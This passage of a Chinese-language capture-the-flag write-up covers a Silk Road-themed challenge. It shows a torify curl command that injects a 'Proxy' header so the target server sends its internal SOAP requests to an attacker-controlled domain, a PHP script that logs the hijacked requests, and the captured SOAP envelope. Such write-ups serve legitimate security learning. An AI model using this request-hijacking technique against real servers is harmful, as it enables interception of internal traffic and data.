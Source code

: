 掌声！我们崩溃了应用程序！

现在让我们使用 Tinyproxy 设置 amazon 实例，并将其设置为，把流量重定向到本地 Apache 服务器。请求使用了 HTTPS 协议，因此我们还需要一个域名（由[No-IP](https://www.noip.com/)免费提供）和 SSL 证书（[Let’s Encrypt](http://www.letsencrypt.org)上也是免费的）

成功设置我们的服务器后，让我们看看，正在发送的请求：

```bash
$ torify curl -k "https://silkroadzpvwzxxv.onion/" -H "Proxy: ourserver.hopto.org"
```

现在，我们可以找找我们服务器上的 `/var/log/apache2/access.log` ，并查看：

```
127.0.0.1 - - [18/Sep/2017:11:39:29 +0000] "POST /d90cdc7988b15060c1896126cee2eae9/hiddenservice_ws.php HTTP/1.1" 404 3750 "-" "PHP-SOAP/7.0.22-0ubuntu0.17.04.1"
```

`/d90cdc7988b15060c1896126cee2eae9/hiddenservice_ws.php` 是挑战网站中的有效路径，但是当使用 `GET` 调用它时，它只返回一个空页面。我们现在创建一个文件 `/d90cdc7988b15060c1896126cee2eae9/hiddenservice_ws.php`，在我们的网络服务器中，看看来自 挑战服务器的请求是什么：

```php
<?php
$req_dump = '';
$headers = getallheaders();

foreach($headers as $key => $val)
{
	$req_dump.= "$key : $val \n";
}

$req_dump.= "\n" . print_r(file_get_contents('php://input') , TRUE);
$fp = fopen('request.log', 'a');
fwrite($fp, $req_dump);
fclose($fp);
?>
```

再次使用 `Proxy` 标头发出请求后，我们可以在 `request.log` 中看到请求的内容：

```bash
Host : hiddenservicehost
Connection : close
User-Agent : PHP-SOAP/7.0.22-0ubuntu0.17.04.1
Content-Type : text/xml; charset=utf-8
SOAPAction : "https://hiddenservicehost/d90cdc7988b15060c1896126cee2eae9/getCaptchaWord"
Content-Length : 655

<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="https://hiddenservicehost/d90cdc7988b15060c1896126cee2eae9/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
  <SOAP-ENV:Body>
    <ns1:getCaptchaWord>
      <guid xsi:type="xsd:string">6FF45265-5073-8C1B-1BE4-8DD77E546EE0</guid>
      <IP xsi:type="xsd:string">127.0.0.1</IP>
      <length xsi:type="xsd:int">6</length>
    </ns1:getCaptchaWord>
  </SOAP-ENV:Body>
</SOAP-ENV:Envelope>
```

